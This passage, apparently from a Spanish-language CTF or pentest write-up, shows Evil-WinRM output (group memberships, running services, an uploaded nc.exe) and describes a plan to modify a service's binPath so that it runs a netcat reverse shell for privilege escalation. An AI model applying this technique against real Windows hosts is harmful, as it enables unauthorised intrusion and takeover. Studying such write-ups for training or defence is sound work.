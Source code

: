 ```powershell
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Desde el equipo procederemos a revisar los servicios que se encuentran en ejecución.

```powershell
*Evil-WinRM* PS C:\Temp> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

Después de revisar los servicios que se encuentran en ejecución, el siguiente paso será subir al equipo víctima el binario `nc.exe` para posteriormente aprovechar de que formamos parte de este grupo, para modificar el `binPath` del servicio e indicarle que la ruta del servicio es la ejecución de una Reverse Shell utilizando el binario subido de `nc.exe`.

```powershell
*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2025   8:06 AM          28160 nc.exe

Evil-WinRM* PS C:\Temp>
```
